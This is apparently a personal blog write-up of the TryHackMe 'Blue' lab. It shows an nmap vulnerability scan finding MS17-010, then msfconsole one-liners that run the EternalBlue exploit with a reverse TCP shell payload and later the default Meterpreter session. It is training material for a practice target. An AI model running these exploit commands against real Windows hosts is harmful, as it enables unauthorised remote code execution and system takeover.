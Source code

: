 ```yaml
---
title: 'TryHackMe - Blue'
excerpt: 'Scanning a host for vulnerabilities with nmap. Running an exploit against the target using Metasploit to gain a reverse TCP shell and upgrading the shell. Meterpreter usage and session navigation.'
coverImage: '/assets/blog/thm-blue/thm-blue-cover.png'
date: '2023-06-29T05:51:07.322Z'
author:
  name: Zaphod Beeblebrox
  picture: '/assets/blog/authors/skull.jpeg'
ogImage:
  url: '/assets/blog/thm-blue/thm-blue-cover.png'
---
```


# THM Eternal Blue  

![](scraps.jpg)

## Recon  

 ### // Set a terminal environmental variable for target IP address  

    export IP=<target-ip-address> 

 ### // Run nmap vulnerability scan 

    nmap -sV -vv --script=vuln $IP  

 ### // Example  

![](thm-blue/thm-blue-nmap-command.png)  

 ### // Results  

![](thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 ![](thm-blue/thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
     search upgrade shell   

 ![](thm-blue/thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

     use shell_to_meterpreter  

> Alternative: "use 4" (4th result in searches)

 ![](thm-blue/thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  



 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  

 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  






